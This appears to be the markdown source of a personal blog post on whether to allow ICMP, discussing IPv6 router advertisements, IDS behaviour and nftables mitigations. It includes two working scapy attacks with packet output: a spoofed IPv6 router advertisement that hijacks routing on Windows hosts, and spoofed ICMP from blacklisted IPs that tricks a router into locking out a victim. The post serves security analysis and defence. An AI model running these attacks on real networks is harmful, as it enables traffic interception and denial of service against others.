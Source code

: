 +++
Title = "Should I enable ICMP? (Pt. 1)"
Date = "2023-01-15T23:20:20-0800"
Author = "Paige"
Description = "Some thoughts on my experiences and in response to shouldiblockicmp.com"
cover = "img/og.png"
+++

> Yes!

# hold up...

Awhile ago I read an article called [Should I block ICMP](http://shouldiblockicmp.com)? The sentiment is pretty much in line with my own which is that ICMP is entirely necesarry for a variety of reasons especially in IPv6. Unfortunately my experience tells me that ICMP presents a lot of security problems when left unchecked and it's mostly or entirely left unchecked everywhere I've seen it left on. This will be an attempt to analyze some of the problems and present some insight as to how to mitigate some of the problems.

# IPv6 ND_RA

This one has been the most interesting to me for awhile. Router advertisements are really useful, but the deployment of IPv6 and it's reception has met with strong resistance and a disjointed comprehension of the theory behind things like router advertisements. Here is an example of how to abuse it using the scapy framework in python:

{{< highlight python >}}
from scapy.all import *
from ipaddress import IPv6Network

sendp((lambda lladdr, llsrc, lldst, prefixlen, prefix: Ether(dst = lldst, src = llsrc) 
/ IPv6(src = lladdr) / ICMPv6ND_RA() / ICMPv6NDOptSrcLLAddr(lladdr = llsrc) / ICMPv6NDOptMTU() 
/ ICMPv6NDOptPrefixInfo(prefixlen=prefixlen, prefix=prefix) / ICMPv6NDOptRouteInfo(prf = 1, plen = 3, 
prefix = "2000::", rtlifetime = 0xffffffff))("fe80::4398:6d2e:c5ca:cb73", "c0:3c:59:ed:e3:1f", 
"9c:b6:d0:3f:72:96", 64, next(IPv6Network("fc00:1d13:f001::/48").subnets(64)).network_address), count = 16)
{{< / highlight >}}

To clarify, this is a router advertisement spoofed as another computer as the source, to a windows machine as it's destination. Here's a complete breakdown of the assumptions and what it does: 

- Is able to send a spoofed ethernet header (mac address spoofing)
- Is able to send unfiltered router advertisements to ff02::1
- It relies on the fact that the host that it's being sent to will automatically accept the address that is advertised
(SLAAC)
- The spoofed source mac address is: c0:3c:59:ed:e3:1f
- The spoofed layer 3 link local source address is: fe80::4398:6d2e:c5ca:cb73
- The destination mac address is: 9c:b6:d0:3f:72:96
- The destination layer 3 address is: `ff02::1` (Link-Local multicast all-nodes address)
- Both clients are connected to a wireless access point that is connected to a UDM Pro
- The filtering characteristics of the wireless access point are unknown 
- The UDM pro is configured without filtering (no IGMP snooping or ND_RA filtering.)

From the sender's perspective, the pcap of what they're sending will look like this: 

```
 00:00:00.000664 c0:3c:59:ed:e3:1f > 9c:b6:d0:3f:72:96, ethertype IPv6 (0x86dd), length 142: (hlim 255, next-header ICMPv6 (58) payload length: 88) fe80::4398:6d2e:c5ca:cb73 > ff02::1: [icmp6 sum ok] ICMP6, router advertisement, length 88
    hop limit 0, Flags [none], pref high, router lifetime 1800s, reachable time 0ms, retrans timer 0ms
      source link-address option (1), length 8 (1): c0:3c:59:ed:e3:1f
        0x0000:  c03c 59ed e31f
      mtu option (5), length 8 (1):  1280
        0x0000:  0000 0000 0500
      prefix info option (3), length 32 (4): fc00:1d13:f001::/64, Flags [onlink, auto], valid time infinity, pref. time infinity
        0x0000:  40c0 ffff ffff ffff ffff 0000 0000 fc00
        0x0010:  1d13 f001 0000 0000 0000 0000 0000
      route info option (24), length 24 (3):  2000::/3, pref=high, lifetime=infinity
        0x0000:  0308 ffff ffff 2000 0000 0000 0000 0000
        0x0010:  0000 0000 0000
    0x0000:  9cb6 d03f 7296 c03c 59ed e31f 86dd 6000  ...?r..<Y.....`.
    0x0010:  0000 0058 3aff fe80 0000 0000 0000 4398  ...X:.........C.
    0x0020:  6d2e c5ca cb73 ff02 0000 0000 0000 0000  m....s..........
    0x0030:  0000 0000 0001 8600 a2a1 0008 0708 0000  ................
    0x0040:  0000 0000 0000 0101 c03c 59ed e31f 0501  .........<Y.....
    0x0050:  0000 0000 0500 0304 40c0 ffff ffff ffff  ........@.......
    0x0060:  ffff 0000 0000 fc00 1d13 f001 0000 0000  ................
    0x0070:  0000 0000 0000 1803 0308 ffff ffff 2000  ................
    0x0080:  0000 0000 0000 0000 0000 0000 0000       ..............
    ```
```

And the result is it 100% works. The recipient sees essentially the same. Modern Windows 10 and 11 machines with IPv6 enabled will have SLAAC enabled by default. The client has now
configured the delegated prefix fc00:1d13:f001::/64 for itself and configured fe80::4398:6d2e:c5ca:cb73 as the gateway for 2000::/3.

- It might be worth noting that traffic destined for ff02::1 generally specifies a destination MAC address of [33:33:00:00:00:01](https://en.wikipedia.org/wiki/Multicast_address#Ethernet)

# Thrown under the IDS

UDM pro has some nifty security options for detecting suspicious network activity and locking out specific client or completely locking down the network. It might be possible to influence this behavior by eliciting an ICMP reply from a target to a blacklisted address:

{{< highlight python >}}
curl -s http://rules.emergingthreats.net/blockrules/compromised-ips.txt | shuf | sudo python3 -c 'import sys; 
from scapy.all import *; (lambda z, target, smac, dmac: [sendp(Ether(dst = dmac, src = smac)/IP(src = x.strip(), 
dst = target)/ICMP(id = y - 10000, seq = y - 10000)) for x, y in zip(z, range(10000, 10000 + 
len(z)))])(sys.stdin.readlines(), "192.168.1.12", "ff:ff:ff:ff:ff:ff", "9c:b6:d0:3f:72:96")'
{{< / highlight >}}

- 192.168.1.12 has a MAC address of 9c:b6:d0:3f:72:96 and it is the target of this attack
- Each IP in the compromised-ips.txt is paired with a unique id number (up to 10000 or less if there are fewer than 10000 IP addresses), and a packet is sent for each IP to 192.168.1.12 for each of the addresses as the source address. 
- The client receives this and sends a reply to the spoofed address
- The router receives the reply sent to the malicious address and locks out the client

# There's a lot to think about 

- This can also be accomplished with TCP SYN causing a client to ACK @ a spoofed address. 

The same is true for UDP. For internet routers, networks have to implement [BCP38 practices](https://www.ietf.org/rfc/bcp/bcp38.html) to prevent packet spoofing but is often overlooked or in-actionable due to [scalability problems](https://ripe58.ripe.net/content/presentations/bgp-scaling-considerations.pdf). To be fair, the problem arises when a user decides to send a packet with the target of an attack's IP address specified as the source address to a large number of hosts; a small UDP packet it sent with a spoofed address to a destination and the destination sends a much larger response UDP packet to the specified source address--amplification attacks. 

- Global Unicast Addresses (GUAs) in IPv6 are "globally scoped" addresses. 

ISP's cannot legally delegate a prefix smaller than a /64, but even if they did, a /64 is an incomprehensible amount of address space (18,446,744,073,709,551,616 addresses.) It's actually wasteful to configure each host with a /64. Neighbor Discovery Protocol is essential 
to making use of the entire addressable range of a /64. Essentially, the router is delegated the /64, and leases addresses from this block to clients on a network using DHCPv6 and/or SLAAC. NDP is comprised of ICMPv6 type 133, 134, 135, 136, 137. Types 133, 135, and 136 must be unrestricted to fe80::/10 and to the /64 itself which isn't known until it is delegated by the ISP so this presents a chicken and egg problem for creating firewall rules; unless you can specify [hop count / next hop criteria](https://wiki.nftables.org/wiki-nftables/index.php/Matching_routing_information) for filtering ICMPv6.

GUA addresses are internet routable addresses. This presents a problem for people in terms of adoption of IPv6 because in general people tend to think about security in terms of this world vs. the world. Consequently, the world poeple will create calls for no solution that doesn't solve the problem. I won't say that configuring a firewall on everything is a reasonable solution, but I'm not saying that it isn't either.

Amazon came up with a way to describe a solution to make IPv6 meet half way with the fundamental way that people think about networking security called [Egress-only Gateways](https://docs.aws.amazon.com/vpc/latest/userguide/egress-only-internet-gateway.html). It's not a concept that is unique to Amazon. I'm not aware of a way this can be accomplished with BGP, this is undoubtedly made possible using a stateful firewall which for a lot of people remains a [scalability problem](https://people.netfilter.org/kadlec/nftest.pdf).

The unfortunate truth is that it's [never going to not be a scalability problem](https://en.wikipedia.org/wiki/Time_complexity). But there's a lot you can do now, that you haven't always been able to do with stateful firewalls as I've outlined in my [presentation on NFTables](https://paige.bio/nftables_presentation) such as [Flowtables](https://wiki.nftables.org/wiki-nftables/index.php/Flowtables). Another fantastic advantage of NFTables is the flexibility of the language itself to better realize the complexities of stateful queuing and measuring traffic as well as dynamically making adjustments based on measured traffic. 

For part 2, I'd like to cover some of the lesser known aspects of ICMP. Things like admin-prohibited and what they should mean but also why it's not as simple as just letting it be a REJECT as well as ways you can counter abuse. This is a topic I've been wanting to cover for a long time, but it's going to take awhile. 

